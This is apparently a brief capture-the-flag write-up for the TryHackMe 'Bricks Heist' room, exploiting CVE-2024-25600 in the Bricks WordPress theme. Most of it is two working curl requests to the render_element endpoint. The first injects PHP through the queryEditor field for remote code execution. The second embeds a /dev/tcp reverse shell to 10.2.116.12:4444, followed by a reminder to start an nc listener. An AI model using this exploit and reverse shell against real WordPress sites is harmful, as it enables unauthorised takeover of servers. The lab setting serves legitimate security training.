

<h1>Bricks Heist</h1>



<p>nonce: "9bbef0a32a"</p>
<p>CVE-2024-25600</p>

```
curl -k -X POST https://bricks.thm/wp-json/bricks/v1/render_element \
    -H "Content-Type: application/json" \
    -d '{
        "postId": "1",
        "nonce": "9bbef0a32a",
        "element": {
        "name": "container",
        "settings": {
            "hasLoop": "true",
            "query": {
            "useQueryEditor": true,
            "queryEditor": "throw new Exception(`id`);",
            "objectType": "post"
            }
        }
        }
    }'
```

<p>It gives us <b>RCE.</b> Let's change the <code>id</code> command to <i>reverse-shell</i></p>
<code>sh -i >& /dev/tcp/10.2.116.12/4444 0>&1</code>

```
curl -k -X POST https://bricks.thm/wp-json/bricks/v1/render_element \
    -H "Content-Type: application/json" \
    -d '{
        "postId": "1",
        "nonce": "9bbef0a32a",
        "element": {
        "name": "container",
        "settings": {
            "hasLoop": "true",
            "query": {
            "useQueryEditor": true,
            "queryEditor": "throw new Exception(`sh -i >& /dev/tcp/10.2.116.12/4444 0>&1`);",
            "objectType": "post"
            }
        }
        }
    }'
```
<p><strong>Don't forget to set up <code>nc</code> listener</strong></p>

<p>Suspicious Process: nm-inet-dialog</p>